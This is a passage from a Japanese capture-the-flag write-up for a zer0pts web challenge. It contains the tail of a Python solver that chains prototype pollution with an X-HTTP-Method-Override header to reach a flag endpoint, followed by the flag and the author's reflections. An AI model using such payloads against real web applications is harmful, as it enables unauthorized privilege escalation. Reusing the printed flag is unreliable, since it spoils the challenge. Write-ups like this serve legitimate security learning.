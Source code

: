 ```python
    return res.json()


uuid1 = create_note("x", "x")

uuid2 = create_note("x", "x")
update_note(uuid2, {"headers[Content-Type]": "text/plain", "headers[X-HTTP-Method-Override]": "PUT", "title[x]": "", "content[x]": "", "like[x]": ""})

# botにいいねしてもらうpostのURL
print(f"{FRONTEND_BASE_URL}/#page=post&id={uuid1}")

# reportする文字列
print(f"{urllib.parse.quote(uuid1+'?title=x&content=x&permission[flag]=1#')},{uuid2},__proto__")

# report後にアクセスするURL
print(f"{API_BASE_URL}/api/post/{uuid1}/has_enough_permission_to_get_the_flag")
# -> {"flag":"zer0pts{tan_takatatontan_ton_takatatantatotan_8jOQmPx2Mjk}"}
```

### フラグ

```
zer0pts{tan_takatatontan_ton_takatatantatotan_8jOQmPx2Mjk}
```

### 感想

`X-HTTP-Method-Override`に気づくのに時間がかかってしまった。謎リクエストヘッダ問はたまに遭遇するけど、毎回気づくのに時間がかかってどうにかしたいです。というか、Webフレームワークにデフォルトで謎機能を有効にするのはやめてほしいというのが正直な気持ちです[^plain-blog-01]。

[^plain-blog-01]: 歴史的経緯・慣習的なものなので必要という側面もあるかもしれないですが、それはそれとして。

問題自体はおもしろかったです。prototype pollutionパズルで`PUT /api/post/:id`を利用し、リクエストメソッドの上書き先で再び`PUT /api/post/:id`を利用する点は、伏線回収みたいで問題の構成がきれいで良かったです。


[^top-01]: 一方で、ひとりでもくもくと問題に挑んでフラグを取りに行くのも達成感があって気持ちが良いので、どちらが良いかは微妙なところ。
[^warmuprofile-01]: writeupを書いてる途中で気づいたんですが、warmup profileでなくてwarmu**p**rofileだったのか。文字遊び好きです。
[^warmuprofile-02]: [作問者writeup](https://nanimokangaeteinai.hateblo.jp/entry/2023/07/17/141919#Web-137-Warmuprofile-48-solves)によれば、2つセッションつくるのが想定だったみたいです。たしかに。
[^jqi-01]: レスポンス内容の差異がなかったとしてもtime-basedなオラクルはたぶん構成可能です。やりたくなかったので、親切設計でありがたかったです。